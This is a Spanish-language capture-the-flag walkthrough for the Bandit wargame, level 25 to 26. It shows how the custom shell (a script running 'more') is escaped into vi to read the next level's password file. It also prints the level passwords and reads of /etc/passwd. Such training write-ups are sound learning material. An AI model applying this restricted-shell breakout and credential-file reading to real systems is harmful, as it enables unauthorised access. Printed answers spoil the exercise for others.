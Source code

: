 ## Objetivo
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.
## Datos de acceso al nivel
bandit 25
p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

## Solución
 ```
 bandit25@bandit:~$ ls 
bandit26.sshkey 
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p 2220 
_ _ _ _ ___ __ | | | (_) | |__ \ / / | |__ __ _ _ __ __| |_| |_ ) / /_ | '_ \ / _` | '_ \ / _` | | __| / / '_ \ | |_) | (_| | | | | (_| | | |_ / /| (_) | |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to localhost closed. 
bandit25@bandit:~$ cat /etc/passwd | grep bandit26 
bandit26:x:11026:11026:bandit level 
26:/home/bandit26:/usr/bin/showtext 
bandit25@bandit:~$ cat /usr/bin/showtext 
#!/bin/sh 
export TERM=linux 
exec more ~/text.txt
exit 0

bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p 2220 
| | | (_) | |__ \ / / | |__ __ _ _ __ __| |_| |_ ) / /_ | '_ \ / _` | '_ \ / _` | | __| / / '_
|_) | (_| | | | | (_| | | |_ / /| (_) | 
--More--(84%) 
v 
_ _ _ _ ___ __ | | | (_) | |__ \ / / | |__ __ _ _ __ __| |_| |_ ) / /_ | '_ \ / _` | '_ \ / _` | | __| / / '_ \ | |_) | (_| | | | | (_| | | |_ / /| (_) | "~/text.txt" [readonly] 6L, 258B 
:e /etc/bandit_pass/bandit26 

c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
```
## Notas adicionales

## Referencias
